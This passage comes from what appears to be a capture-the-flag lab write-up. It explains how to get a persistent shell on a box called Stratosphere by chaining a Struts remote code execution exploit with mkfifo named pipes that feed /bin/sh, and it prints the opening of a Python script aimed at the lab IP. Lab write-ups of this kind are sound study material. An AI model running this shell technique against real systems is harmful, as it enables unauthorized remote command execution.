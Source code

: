 ## Building a Shell

To solidify our shell, we'll make use of mkfifo method from IppSec's
[Sokar video](https://www.youtube.com/watch?v=k6ri-LFWEj4). (You may
have already noticed my `stratophere>` shell above.)

### Script

`stratosphere_shell.py` uses the [poc struts
exploit](https://github.com/rapid7/metasploit-framework/issues/8064) to
run commands. It starts by making two pipes with `mkfifo`, one called
stdin and one called stdout. Then it tails stdin into a bash process
who's output goes into stdout. Because of how tail works, that bash
process will stay open. So if we can write something to stdin, it will
be passed to the running bash process, and the results written to the
stdout pipe. We'll use struts executions to write to the stdin pipe, and
then another thread will be constantly using the struts exploit to read
from the stdout pipe.

Here's the full code:



    #!/usr/bin/python3
    # -*- coding: utf-8 -*-

    # source: https://github.com/rapid7/metasploit-framework/issues/8064

    import base64
    #import httplib
    import random
    import requests
    import threading
    import time
    #import urllib2

    class Stratosphere(object):

        def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
            self.url = r"http://10.10.10.64/Monitoring/example/Welcome.action"
            self.proxies = {'http' : proxies}
            session = random.randrange(10000,99999)
            print(f"[*] Session ID: {session}")
            self.stdin = f'/dev/shm/input.{session}'
            self.stdout = f'/dev/shm/output.{session}'
            self.interval = interval

            # set up shell
            print("[*] Setting up fifo shell on target")
            MakeNamedPipes = f"""mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"""
            self.RunRawCmd(MakeNamedPipes, timeout=0.1)
